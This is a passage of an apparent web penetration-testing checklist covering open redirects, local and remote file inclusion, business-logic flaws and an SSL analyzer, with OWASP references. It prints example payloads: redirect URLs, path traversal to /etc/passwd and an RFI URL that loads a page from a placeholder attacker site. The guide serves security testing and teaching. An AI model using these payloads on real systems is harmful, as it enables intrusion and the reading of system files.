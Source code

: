 [OWASP - Testing for Client Side URL Redirect](https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004))

**Examples**
```
http://www.target.site?#redirect=www.fake-target.site 
http://www.target.site??url=http://www.fake-target.site 
```

#### Local File Inclusion (LFI)

Local File Inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.

[OWASP - Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

**Examples**
```
http://vulnerable_host/preview.php?file=../../../../etc/passwd
http://vulnerable_host/preview.php?file=../../../../etc/passwd%00
```

#### Remote File Inclusion (RFI)

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

[OWASP - Testing for Remote File Inclusion](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)

**Examples**
```
http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page
```

### Business Logic

Discovering flaws in business logic requires you, as the attacker, to have a decent fundemental understanding of the target application. Once you know the way the application is intended to be used you can start to reason how I could be exploited. When testing for business logic flaws refer back to areas of the application where you as the user are expected to complete a series of actions in a certain order (e.g. password reset form, order form, etc.) and try executing those actions out of order.

Further, you should check if a user is able to enter unrealistic values into certain inputs fields within the application (e.g. a fitness app where a user is expected to enter the amount of miles run)?

This is also a good time to test for [unrestricted file upload](https://www.owasp.org/index.php/Unrestricted_File_Upload).

### Encryption Flaws

<table>
  <thead>
    <th>Name</th>
    <th>Description</th>
  </thead>
  <tbody>
    <tr>
      <td>SSLyze</td>
      <td>TLS/SSL Implementation Analyzer</td>
    </tr>
  </tbody>
</table>
